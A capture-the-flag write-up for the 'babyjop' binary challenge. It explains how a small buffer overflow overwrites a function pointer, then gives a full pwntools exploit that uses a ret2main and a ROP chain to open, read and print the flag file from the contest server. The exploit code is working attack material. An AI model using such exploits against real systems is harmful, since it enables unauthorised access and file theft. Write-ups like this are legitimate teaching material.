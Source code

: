 I got first blood on this challenge, so here is a little write-up.

Description of the vulnerability:

The program reads 0x84 byte on a buffer of 0x80 size, 

just after the buffer is a function pointer that is called later, 

so you can overwrite the 4 lsb of the function pointer. (more than enough)


![](https://imgur.com/0JF9cVI.png)

Here you can see, the buffer, and the fonction pointer just next:


![](https://imgur.com/1Bcmq7w.png)

So , we will overwrite the function ptr with 0x4018ea address,

to make a ret2main,  and read again the buffer, but this time with edx=0x4018ea as a size for the read

so we will have no limit for the size, and can do rop as we want..

The rest is classic, we do a ROP that open the file, read it, write it to stdout...

![](https://imgur.com/QTjZMca.png)

```
from pwn import *

context.log_level = 'info'

exe = ELF('./babyjop')

host, port = "remote1.thcon.party", "10902"
p = remote(host,port)

gadget1 = 0x00000000004018ca # pop rdi ; ret
gadget2 = 0x00000000004017cf # pop rdx ; ret
gadget3 = 0x000000000040f4fe # pop rsi ; ret

p.sendlineafter('age: \n', '1')
# first payload ret2main ,  read again data, but this time with edx bigged..(no limit)
payload = b'A'*128+p32(0x401e8a)
p.sendafter('name: ', payload)

# next fd number remote (guessed after some tries)
fd = 5
payload2 =  b'/home/user/flag.txt\x00'.ljust(88,b'\x00')
# open the /home/user/flag.txt file
payload2 += p64(gadget1)+p64(0x4c3300)+p64(gadget3)+p64(0)+p64(gadget2)+p64(0x0000000000452781) + p64(exe.sym['open'])
# read it
payload2 += p64(gadget1)+p64(fd)+p64(gadget3)+p64(0x4c3300)+p64(gadget2)+p64(0x100)+p64(exe.sym['read'])
# write the file to stdout
payload2 += p64(gadget1)+p64(1)+p64(gadget2)+p64(0x100)+p64(0x451520)+p64(exe.sym['write'])
# send second payload
p.send(payload2)

p.interactive()

```
nobodyisnobody for RootMeUpBeforeYouGoGo
